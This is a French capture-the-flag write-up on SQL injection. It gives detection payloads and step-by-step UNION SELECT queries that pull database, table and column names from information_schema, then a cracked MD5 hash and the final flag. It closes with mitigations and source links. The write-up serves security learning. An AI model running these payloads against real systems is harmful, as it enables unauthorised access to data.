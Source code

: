 # Nom de la faille
Injection SQL

## Définition
Les injections SQL sont une technique utilisée par des utilisateurs malveillants pour manipuler les requêtes SQL envoyées par une application web à sa base de données.

## Risques
Les injections SQL présentent plusieurs risques majeurs pour la sécurité des applications web :

- **Accès non autorisé aux données**
- **Modification des données**
- **Exécution de commandes**
- **Déni de service**

## Détection et Exploitation

### Détection
1. **Test des entrées utilisateur** :
   - Ajoutez des payloads spécifiques après le nom d'utilisateur pour voir si cela provoque des erreurs ou modifie le comportement de la page. Exemples de payloads : `'`, `"`, `#`, `;`, `)`.
   - Exemple : `1 OR 1=1` peut afficher une erreur et révéler la requête SQL dans l'URL.

2. **Analyse des erreurs** :
   - Observez les messages d'erreur retournés par l'application. Les erreurs SQL peuvent révéler des informations sur la structure de la base de données et les requêtes utilisées.

### Exploitation

1. **Trouver le nombre de champs** :
   - Utilisez `ORDER BY` pour déterminer le nombre de champs dans la requête. Par exemple, `1 ORDER BY 2` peut renvoyer une erreur si le champ n'existe pas.
   - Une fois le nombre de champs déterminé, utilisez `UNION SELECT` pour extraire des informations. Par exemple, `1 UNION SELECT 1, 2` pour vérifier le nombre de champs.

2. **Extraire des informations**

   - **Obtenir le nom de la base de données** :
     - Utilisez la requête `1 UNION SELECT 1, database()` pour obtenir le nom de la base de données actuelle.
     - Exemple de résultat : `Member_images`.

   - **Obtenir les noms des tables** :
     - Utilisez la requête `1 UNION SELECT 1, TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = CHAR(77,101,109,98,101,114,95,105,109,97,103,101,115)` pour obtenir les noms des tables dans la base de données.
     - Exemple de résultat : `list_images`.

   - **Obtenir les noms des colonnes** :
     - Utilisez la requête `1 UNION SELECT 1, COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = CHAR(77,101,109,98,101,114,95,105,109,97,103,101,115) AND TABLE_NAME = CHAR(108,105,115,116,95,105,109,97,103,101,115)` pour obtenir les noms des colonnes de la table `list_images`.
     - Exemple de résultat : `id, url, title, comment`.

   - **Obtenir des données spécifiques** :
     - Utilisez la requête `1 UNION SELECT 1, url FROM list_images` pour obtenir les URLs des images.
     - Utilisez la requête `1 UNION SELECT 1, title FROM list_images` pour obtenir les titres des images.

   - **Décryptage du flag** :
     - Utilisez un outil de décryptage MD5, comme [dcode.fr](https://www.dcode.fr/md5-hash), pour décrypter le hash MD5 obtenu.
       - Exemple de hash MD5 : `1928e8083cf461a51303633093573c46`.
       - Exemple de résultat : `albatroz`.
     - Appliquez la fonction de hachage SHA-256 au mot décrypté pour obtenir le flag final.
       - Flag obtenu : `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`.

## Comment l'éviter

1. **Utiliser des requêtes préparées**
2. **Valider et échapper les entrées utilisateur**
3. **Utiliser des frameworks sécurisés**

## Source
- https://www.vaadata.com/blog/fr/injections-sql-principes-impacts-exploitations-bonnes-pratiques-securite/
- https://zestedesavoir.com/tutoriels/945/les-injections-sql-le-tutoriel/les-injections-sql-classiques/affichage-denregistrements/
- https://tcm-sec.com/avoid-or-1-equals-1-in-sql-injections/
- https://www.w3schools.com/sql/sql_injection.asp

